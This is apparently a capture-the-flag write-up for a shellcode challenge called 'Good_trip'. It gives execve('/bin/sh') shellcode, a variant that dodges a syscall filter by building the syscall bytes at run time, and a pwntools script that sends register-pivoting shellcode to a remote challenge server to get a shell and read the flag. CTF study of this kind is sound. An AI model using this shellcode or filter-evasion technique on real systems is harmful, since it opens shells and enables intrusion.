


# Good_trip

> <p>if you think about it? it doesn't make any sense. GOOOOD TRIP</p>
> <p><a href="attachments/good_trip.zip"></a>good_trip.zip</p>

## Path to Flag

We are given a main function
```
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char cVar1;
  int local_14;
  void *local_10;
  
  local_14 = 0;
  init(param_1);
  local_10 = mmap((void *)0x1337131369,0x1000,7,0x22,-1,0);
  printf("code size >> ");
  __isoc99_scanf(&DAT_00402027,&local_14);
  if ((-1 < local_14) && (local_14 < 0x1001)) {
    printf("code >> ");
    read(0,local_10,0x999);
    mprotect(local_10,(long)local_14,5);
    cVar1 = filter(local_10);
    if (cVar1 != '\0') {
      puts("nop, not happening.");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    exec(local_10);
  }
  return 0;
}
```

The main function above shows that this challenge is about shellcode. So based on standard condition, I tried the syscall assembly shellcode.

```
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

Seems like syscall and similar functions are blacklisted, so I just tried to use one_gadget to find another alternative that leads to syscall.

The first thing I did was trying to find an alternative method that leads to syscall.

```
/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00', '-p\x00'] */
        /* push b'sh\x00-p\x00' */
        mov rax, 0x101010101010101
        push rax
        mov rax, 0x101010101010101 ^ 0x702d006873
        xor [rsp], rax
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 0xb
        pop rsi
        add rsi, rsp
        push rsi /* '-p\x00' */
        push 0x10
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push 0x3b /* 0x3b */
        pop rax
        //syscall
        push 0x050e
        inc qword ptr [rsp]
        jmp rsp
        nop
```

But somehow it doesn't work cause the stack are all cleared. Hence the program doesn't have a stack register. Because of the lack of experience, I used another way which is `one_gadget`.

The thing I did is to find register that is not NULL, by setting a breakpoint and find register information.

```
gdb ./good_trip
b main
r
info registers
```

<br>

Besides the top 8 registers, `r9` and `r10` are the one I tried the first, unfortunately `r9` doesn't work but `r10` works. Therefore, I just simply create the script to make things easier.

```
#!/usr/bin/python3

from pwn import *

host = '172.210.129.230'
port = 1351
context.update(terminal=['tmux', 'new-window'], os='linux', arch='amd64')
connection = remote(host, port)

connection.recvuntil(b">> ")
connection.sendline(b"100")
connection.recvuntil(b">> ")

shellcode = """
sub r10, 0x193fe0
mov rsp, r10
add r10, 0x288f8
add rsp, 0x1e5000

xor rsi, rsi
push rsi
mov rdi, 0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 59
pop rax
cdq
call r10
"""

assembled_shellcode = asm(shellcode)
connection.sendline(assembled_shellcode)
connection.interactive()
```

Enter the command `cat flag.txt` after successfully entering the shell.

<br>

`AKASEC{y34h_You_C4N7_PRO73C7_5om37hIn9_YoU_doN7_h4V3}`